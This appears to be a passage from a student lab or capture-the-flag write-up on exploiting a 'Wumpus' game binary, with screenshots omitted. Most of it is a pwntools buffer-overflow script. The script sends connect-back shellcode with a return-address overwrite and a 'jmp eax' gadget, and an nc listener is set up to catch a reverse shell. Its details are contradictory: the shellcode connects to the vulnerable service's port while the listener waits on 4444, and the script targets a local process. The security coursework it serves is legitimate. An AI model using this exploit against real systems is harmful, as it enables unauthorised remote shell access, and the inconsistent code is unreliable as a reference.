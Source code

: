 ```python
p.close()
```

![[Pasted image 20250409235549.png]]
![[Pasted image 20250410001835.png]]
### Question 8f

Similar to the previous question, to get a shell on the Wumpus VM we start a listener with `nc -nlvp 4444`, execute the exploit script targeting the Wumpus game service, verify shell access with basic commands like `whoami` and `pwd`. However we need to change the `HOST` and `PORT` number to the remote machine which is on `192.168.1.37` with the vulnerable service running on port `20666`
```python
from pwn import *

# Set the context for pwntools (architecture, OS)
context.arch = 'i386'
context.os = 'linux'

sh = asm(shellcraft.i386.linux.connect("192.168.1.37", 20666) +
         shellcraft.i386.linux.dupsh('edx'))

log.info(f"Shellcode length: {len(sh)} bytes")

padding_len = 369 - len(sh)
if padding_len < 0:
    log.error("Shellcode is longer than the available space before Saved EBP!")
    exit(1)
padding = b'A' * padding_len

saved_ebp = b'B' * 4

return_address = p32(0xb7c080ad) # Pack the address for i386 little-endian

extra_bytes = b"\xff\xe0" # jmp eax instruction

# Combine all parts into the final payload
payload = sh + padding + saved_ebp + return_address + extra_bytes

log.info(f"Total payload length: {len(payload)} bytes")
try:
    target_binary = './wumpus'
    p = process(target_binary)
except FileNotFoundError:
    log.error(f"Target binary '{target_binary}' not found.")
    exit(1)

log.info("Sending the payload...")
p.sendline(payload)


log.success("Payload sent! If exploit worked, a shell should connect back.")
log.info("Run 'nc -lvnp 4444' in another terminal to catch the shell.")

p.close()
```
![[Pasted image 20250410001905.png]]